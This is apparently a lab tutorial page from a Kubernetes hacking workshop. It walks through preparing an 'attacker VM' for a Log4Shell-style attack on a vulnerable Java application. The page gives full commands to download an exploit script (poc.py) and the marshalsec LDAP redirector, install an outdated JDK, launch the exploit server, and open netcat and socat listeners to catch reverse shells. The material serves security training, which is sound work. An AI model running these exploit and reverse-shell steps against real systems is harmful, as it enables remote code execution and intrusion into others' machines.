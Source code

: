 # Prepare the attacker VMs

We also have to prepare our **attacker VM**.

Let's install an application that poses as an LDAP server and provider a Java class to the vulnerable application which will create a remote connection back to the **attacker VM**.

## Run the following commands on the attacker VM.

Login into the **attacker VM** with your favorite SSH tool as user **ec2-user**

```
export VM=attacker
PS1="\u@$VM:\w>"
```

Then we need to set the variable for the public IP address

```export PUBLIC_IP=<public ip address>```


Install python3

```sudo zypper in -y python3```

Download the app

```
wget https://github.com/bashofmann/hacking-kubernetes/raw/main/exploiting-app/poc.py
wget https://github.com/bashofmann/hacking-kubernetes/raw/main/exploiting-app/requirements.txt
mkdir ~/target
wget https://github.com/bashofmann/hacking-kubernetes/raw/main/exploiting-app/target/marshalsec-0.0.3-SNAPSHOT-all.jar -P ~/target
pip3 install -r requirements.txt
```

Download a vulnerable JDK

```
wget https://download.java.net/openjdk/jdk8u43/ri/openjdk-8u43-linux-x64.tar.gz
tar -xvf openjdk-8u43-linux-x64.tar.gz
mv java-se-8u43-ri/ jdk1.8.0_20
```

Now we can run the python app that provides the exploit

```
sudo python3 poc.py --userip ${PUBLIC_IP} --webport 80 --lport 443 &
```

And start listening for remote shells

```sudo nc -lvnp 443```

## Run the following commands on a second shell on the  attacker VM.

open a second sheel to the attacker VM and we name it **attacker2**

```
export VM2=attacker2
PS1="\u@$VM2:\w>"
```

```sudo zypper in -y socat```

```socat file:`tty`,raw,echo=0 tcp-listen:4444```
